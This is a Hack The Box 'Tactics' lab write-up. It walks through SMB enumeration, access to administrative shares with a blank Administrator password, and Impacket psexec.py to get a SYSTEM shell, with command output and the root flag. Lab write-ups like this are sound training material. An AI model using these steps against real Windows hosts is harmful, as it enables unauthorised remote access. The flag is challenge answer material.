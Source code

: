 ```yaml
---
title: "[HTB] Tactics"
author: "Wook Lee"
date: "2024-07-26"
tags: ["Hack The Box"]
---
```


#### Which Nmap switch can we use to enumerate machines when our ping ICMP packets are blocked by the Windows firewall?

```
-Pn
```

By default, when nmap performs host discovery, it

- sends an ICMP ping.
- checks if port 80 is open
- checks if port 443 is open.

If any of these three conditions are met, nmap considers the host to be up.

However, in many real-world scenarios, ICMP is often blocked, and ports 80 and 443 are closed. In such cases, nmap may incorrectly assume the host is dead and not proceed with port scanning.

To address this issue, you can use the `-Pn` switch to skip the host discovery process.

<br>

#### What does the 3-letter acronym SMB stand for?

```
Server Message Block
```

<br>

#### What port does SMB use to operate at?

```
445
```

![alt text](image.png#center)

<br>

#### What command line argument do you give to `smbclient` to list available shares?

```
-L
```

![alt text](image-1.png#center)

<br>

#### What character at the end of a share name indicates it's an administrative share?

```
$
```

![alt text](image-2.png#center)

`$` indicates it's an administrative share.
`-U` switch for Login identity. **_Administrator_** is the high privilege standard account for Windows operating system.

<br>

#### Which Administrative share is accessible on the box that allows users to view the whole file system?

```
C$
```

![alt text](image-3.png#center)

<br>

#### What command can we use to download the files we find on the SMB Share?

```
get
```

```shell
smb: \Users\Administrator\> cd Desktop\
smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Thu Apr 22 03:16:03 2021
  ..                                 DR        0  Thu Apr 22 03:16:03 2021
  desktop.ini                       AHS      282  Wed Apr 21 11:23:32 2021
  flag.txt                            A       32  Fri Apr 23 05:39:00 2021

                3774463 blocks of size 4096. 1158389 blocks available

smb: \Users\Administrator\Desktop\> get flag.txt
getting file \Users\Administrator\Desktop\flag.txt of size 32 as flag.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
```

<br>

#### Which tool that is part of the Impacket collection can be used to get an interactive shell on the system?

```
psexec.py
```

Since we can access this `ADMIN$` share, we can try to use a tool called `psexec.py` to exploit this misconfiguration & get the interactive system shell. The `psexec.py` is part of the Impacket framework.

**_Impacket_** is a framework written in Python for working with network protocols. It is focused on providing low-level programmatic access to the packets and for some protocols. In short, Impacket contains dozens of amazing tools for interacting with Windows systems and applications, many of which are ideal for attacking Windows and Active Directory.

One of the most commonly used tools in Impacket is `psexec.py`. It is named after the utility, PsExec from Microsoft's Sysinternals suite since it performs the same function of enabling us to execute a fully interactive shell on remote Windows machines.

**_How Impacket's psexec works_**
Impacket creates a remote service by uploading a randomly-named executable on the `ADMIN$` share on the remote system and then register it as a Windows service. This will result in having an interactive shell available on the remote Windows system via TCP port 445.

Psexec requires credentials for a user with local administrator privileges or higher since reading/writing to the `ADMIN$` share is required. Once you successfully authenticate, it will drop you int a `NT Authority\System` shell.

installation guide

```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .
# OR:
sudo python3 setup.py install
# In case you are missing some modules:
pip3 install -r requirements.txt
```

The syntax for simply getting an interactive shell from a target:

`python psexec.py username:password@hostIP`

We know that there is no password for the `Administrator` user. So, the command we are going to run is:

`psexec.py administrator@10.129.208.116`

![alt text](image-4.png#center)

```shell
C:\> whoami
nt authority\system
```

<br>

#### Submit root flag

```
f751c19eda8f61ce81827e6930a1f40c
```

```shell
┌──(kali㉿kali)-[~/Desktop/impacket]
└─$ psexec.py administrator@10.129.208.116
Impacket v0.12.0.dev1+20240725.125704.9f36a10e - Copyright 2023 Fortra

Password:
[*] Requesting shares on 10.129.208.116.....
[*] Found writable share ADMIN$
[*] Uploading file ckDQLGjh.exe
[*] Opening SVCManager on 10.129.208.116.....
[*] Creating service BjhK on 10.129.208.116.....
[*] Starting service BjhK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd \

C:\> dir *flag* /s
 Volume in drive C has no label.
 Volume Serial Number is EEE0-FCDB

 Directory of C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent

04/23/2021  02:38 AM               551 flag.lnk
               1 File(s)            551 bytes

 Directory of C:\Users\Administrator\Desktop

04/23/2021  02:39 AM                32 flag.txt
               1 File(s)             32 bytes

     Total Files Listed:
               2 File(s)            583 bytes
               0 Dir(s)   4,743,278,592 bytes free

C:\> type C:\Users\Administrator\Desktop\flag.txt
f751c19eda8f61ce81827e6930a1f40c
```

<br>

![alt text](image-5.png#center)

